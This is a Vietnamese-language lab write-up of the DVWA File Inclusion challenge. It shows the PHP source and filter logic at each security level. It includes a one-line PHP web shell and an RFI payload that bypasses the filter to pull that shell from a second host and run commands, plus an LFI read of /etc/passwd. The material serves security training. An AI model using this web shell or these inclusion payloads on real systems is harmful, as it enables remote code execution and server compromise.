






# __File Inclusion__

_A file inclusion vulnerability is a type of web vulnerability that is most commonly found to affect web applications that rely on a scripting run time. This issue is caused when an application builds a path to executable code using an attacker-controlled variable in a way that allows the attacker to control which file is executed at run time. A file include vulnerability is distinct from a generic directory traversal attack, in that directory traversal is a way of gaining unauthorized file system access, and a file inclusion vulnerability subverts how an application loads code for execution. Successful exploitation of a file inclusion vulnerability will result in remote code execution on the web server that runs the affected web application. An attacker can use remote code execution to create a web shell on the web server, which can be used for website defacement._

---

__Host__: 192.168.37.162

__Domain DVWWA__: http://192.168.37.162:4280

__Website provided for RFI__: http://192.168.37.162:4280/hackable/flags/fi.php

## __Security Level: Low__

Source code

```php title="vulnerabilities/fi/source/low.php"
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

?>
```

### __Analysis__

Ở cấp độ này thì khá đơn giản, ta thấy rằng url nhận tham số page để hiển thị các file1.php, file2.php, file3.php như hình bên dưới



Hơn nữa, source code hoàn toàn không có filter nên việc ta "thăm dò" file ẩn trong hệ thống thực sự dễ dàng



Oke, có những tiền đề để ta tiến hành khai thác rồi

### __Exploition__

#### __LFI__

Khi nói đến local file inclusion là nói đến việc truy xuất file hệ thống thông qua các đối số được truyền vào. Đơn giản nhất thường thấy là lấy ra file /etc/passwd



#### __RFI__

Ta sẽ tạo một webshell đơn giản và deploy local tại url http://192.168.37.162:8000/ws_ter_get.php

```php title="ws_ter_get"
<?=`$_GET[0]`?>
```

Rồi truyền đối số vào và truy xuất thông tin hệ thống thôi



---

## __Security Level: Medium__

Source code

```php title="vulnerabilities/fi/source/medium.php"

<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\\" ), "", $file );

?>
```

### __Analysis__

Ở mức độ này thì họ đã có filter đầu vào cho cả RFI và LFI nhưng filter này còn hơn non :3

Ở bài viết [Command Injection](/dvwa/command-injection/#analysis_2) tôi cũng đã giải thích sơ bộ chuyện filter này.

Về cơ bản, hành vi filter của các hàm như str_replace,... không có "đệ quy" tức nếu nó filter `../` trong chuỗi `....//` thì nó sẽ lấy `../` ở chính giữa, còn lại vẫn là `../` nhưng lúc này nó không tiếp tục thao tác (không đệ quy).

Giải thích tương tự với việc filter http:// và https://

### __Exploition__

#### __RFI__

:3 Tiêm payload thôi

> ht __http://__ tp://192.168.37.162:8000/ws_ter_get.php&0=ls



---

## __Security Level: High__

Source code

```php title="vulnerabilities/fi/source/high.php"

<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
if( !fnmatch( "file*", $file ) && $file != "include.php" ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}

?>
```

### __Analysis__

Ở challenge này, họ filter ở mức độ cao hơn. Chú ý logic dòng if.

```php
!fnmatch( "file*", $file ) && $file != "include.php"
```

Đoạn trên thể hiện việc nếu mà file truyền vào có tên không bắt đầu bằng `file` và nó khác file `include.php` thì lập tức báo lỗi. 

> Một góc nhìn rộng hơn: Ta có thể xem đoạn logic này như 1 loại whitelist cơ bản

### __Exploition__

Ta sẽ link tới challenge [File Upload](file-upload) để giải quyết lỗ hổng này



---

## __Security Level: Impossible__

Source code

```php title="vulnerabilities/fi/source/impossible.php"

<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Only allow include.php or file{1..3}.php
if( $file != "include.php" && $file != "file1.php" && $file != "file2.php" && $file != "file3.php" ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}

?>
```

### __Analysis__

Ở mức độ này, họ set 1 whitelist gồm 4 file {include.php, file1.php, file2.php, file3.php} và hiển nhiên ta sẽ khó để khai thác lỗ hổng ngay lúc này.

---

### __What we learned__

1. LFI 
2. RFI

## __More Information__

- [Wikipedia - File inclusion vulnerability](https://en.wikipedia.org/wiki/Remote_File_Inclusion)
- [WSTG - Local File Inclusion](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion)
- [WSTG - Remote File Inclusion](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.2-Testing_for_Remote_File_Inclusion)